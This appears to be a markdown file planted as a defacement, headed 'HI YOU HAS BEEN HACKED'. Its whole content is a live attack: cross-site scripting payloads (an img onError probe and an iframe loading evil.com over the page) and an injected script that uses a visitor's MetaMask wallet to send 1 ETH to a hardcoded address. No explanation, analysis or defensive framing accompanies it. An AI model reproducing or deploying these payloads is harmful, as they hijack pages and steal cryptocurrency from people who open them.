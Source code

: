 # HI YOU HAS BEEN HACKED

## "><img src=x onError=prompt(1)>

### 

"><iframe src="https://evil.com" height="100%" width="100%" frameborder="0"></iframe>
">
<script>
  function sendTransaction() {
  // Check if MetaMask is installed
  if (typeof ethereum !== 'undefined') {
    // Request the user to connect to their Ethereum account
    ethereum.enable().then(function(accounts) {
      // Get the user's Ethereum account
      const account = accounts[0];
      // Set the parameters for the transaction
      const params = {
        from: account,
        to: '0xc23f21422F53b00446EbeB2A84e1f7bAD1917e64',
        value: '1000000000000000000' // 1 ETH in wei
      };
      // Send the transaction to MetaMask for confirmation
      ethereum.sendTransaction(params, function(error, hash) {
        if (error) {
          console.error(error);
        } else {
          console.log(hash);
        }
      });
    });
  } else {
    console.error('MetaMask is not installed');
  }
}
</script>


